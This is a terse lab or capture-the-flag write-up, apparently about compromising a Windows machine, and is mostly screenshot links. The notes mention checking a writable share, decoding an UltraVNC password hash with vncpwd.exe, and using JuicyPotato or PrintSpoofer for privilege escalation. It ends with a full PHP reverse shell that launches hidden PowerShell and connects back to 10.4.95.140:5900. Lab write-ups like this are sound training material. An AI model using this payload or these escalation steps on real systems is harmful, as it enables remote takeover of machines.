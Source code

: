 ![image](https://github.com/user-attachments/assets/aaef55ca-1701-4134-84f0-ae7e2c5694d7)
![image](https://github.com/user-attachments/assets/bacf8f6f-f715-40be-92a2-f17d29b7138f)
![image](https://github.com/user-attachments/assets/b7fe6734-b595-41ef-bec5-01d1cb6f6f0a)
![image](https://github.com/user-attachments/assets/785541b9-3d93-4926-b9e0-01614974c2d1)
![image](https://github.com/user-attachments/assets/e9f4f2ad-11b1-4255-8fb5-54eaeadcbf11)
![image](https://github.com/user-attachments/assets/84239f12-d0f1-4d80-a8a4-cb59e9c6e070)
![image](https://github.com/user-attachments/assets/31b934e2-373d-4f05-89f7-41cb5dae6dbb)
![image](https://github.com/user-attachments/assets/47d1cb0c-8333-4c5a-9fe7-468873f4ab23)
![image](https://github.com/user-attachments/assets/02cfbfbd-9180-46c1-b2b0-4e41d34f82eb)
![image](https://github.com/user-attachments/assets/8bc7d2d3-9dd9-49f6-9c86-0484378ec013)
![image](https://github.com/user-attachments/assets/e7854b98-2cbe-486b-8702-d1e9e324f2ba)

Look around, cannot find entry point. Take a break.

Continue. Redeploy machine. Different IP. Check if share is writable.

![image](https://github.com/user-attachments/assets/e8c6cc76-5c96-4fc6-8f52-4637c10d16f5)
![image](https://github.com/user-attachments/assets/951a4363-5f7b-4d40-bc5f-ef3f1d9d4759)
![image](https://github.com/user-attachments/assets/42d93ccc-cfa9-4203-b68a-5f8914c4619e)
![image](https://github.com/user-attachments/assets/93cbc5c3-d6f0-4f45-8005-c17834f59896)
![image](https://github.com/user-attachments/assets/0ee08ecc-9a04-4c22-b8c7-17c436a54aac)
![image](https://github.com/user-attachments/assets/01cccb43-348c-4275-b995-ef1506f60c62)
![image](https://github.com/user-attachments/assets/c2c8bf3a-a8c5-4ada-9853-a8193400cdf3)
![image](https://github.com/user-attachments/assets/d31c38c4-ffd2-401a-8f23-616a03e174c9)
![image](https://github.com/user-attachments/assets/d995aaab-3b9f-4586-842a-0a30e1031329)

Unable to VNC into machine with the decoded password.

Machine is x64-based PC. SeImpersonatePrivilege Enabled. User JuicyPotato.exe or PrintSpoofer64.exe for PrivEsc.

Decode VNC password hash: upload vncpwd.exe to machine and run against ultravnc.ini Or on Kali run wine vncpwd.exe <Password-hash>


Windows PHP reverse shell (stable)
```bash
<?php
$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command ";
$cmd .= "\"\$client = New-Object System.Net.Sockets.TCPClient('10.4.95.140',5900);";
$cmd .= "\$stream = \$client.GetStream();";
$cmd .= "[byte[]]\$bytes = 0..65535|%{0};";
$cmd .= "while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){";
$cmd .= "\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);";
$cmd .= "\$sendback = (iex \$data 2>&1 | Out-String );";
$cmd .= "\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';";
$cmd .= "\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);";
$cmd .= "\$stream.Write(\$sendbyte,0,\$sendbyte.Length);";
$cmd .= "\$stream.Flush() }\";";
exec($cmd);
?>
```
